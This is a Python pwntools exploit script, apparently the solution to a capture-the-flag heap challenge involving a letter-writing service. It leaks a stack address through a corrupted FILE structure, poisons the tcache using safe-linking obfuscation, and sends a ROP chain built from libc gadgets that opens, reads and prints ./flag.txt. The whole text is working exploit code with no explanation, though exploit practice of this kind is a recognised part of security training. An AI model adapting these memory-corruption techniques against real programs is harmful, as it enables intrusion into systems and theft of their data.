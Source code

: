 ```py
environ = libc.sym.environ
payload = p32(0xfbad1800) + p32(0) + p64(environ)*3 + p64(environ) + p64(environ + 0x8)*2 + p64(environ + 8) + p64(environ + 8) + p64(0x0)*3
write_letter(3,0x100,payload)
stack_leak = u64(p.recvuntil(b"\x00\x00")[2:].ljust(8,b"\x00"))
log.critical(f"stack leak: {hex(stack_leak)}")
log.critical(f"rip : {hex(stack_leak-0x168)}")

send_letter(1)
send_letter(2)
write_letter(1,0x130,b"a"*0x108 + p64(0x111) + p64(obfuscate(stack_leak-0x188,heap_leak+0x880)))
write_letter(2,0x100,b"./flag.txt\x00")
# pause()

flag = heap_leak + 0x880
flag_buffer = heap_leak + 0x8e4
print(hex(flag))
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rax = libc.address + 0x0000000000045eb0
pop_rdx_r12 = libc.address + 0x000000000011f497
syscall = libc.address + 0x0000000000091396
payload = b"a"*40 + p64(pop_rdi) + p64(flag) + p64(pop_rax) + p64(0x2) + p64(pop_rsi) + p64(0x0) + p64(syscall) 
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag + 100) + p64(pop_rdx_r12) + p64(0x100) + p64(0x0) + p64(libc.sym.read)
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rsi) +  p64(flag_buffer) + p64(pop_rdx_r12) + p64(0x100) + p64(0x0) + p64(syscall)
# payload += p64(0xdeadbeef)
write_letter(3,0x100,payload)
# _IO_FILE

p.interactive()
```
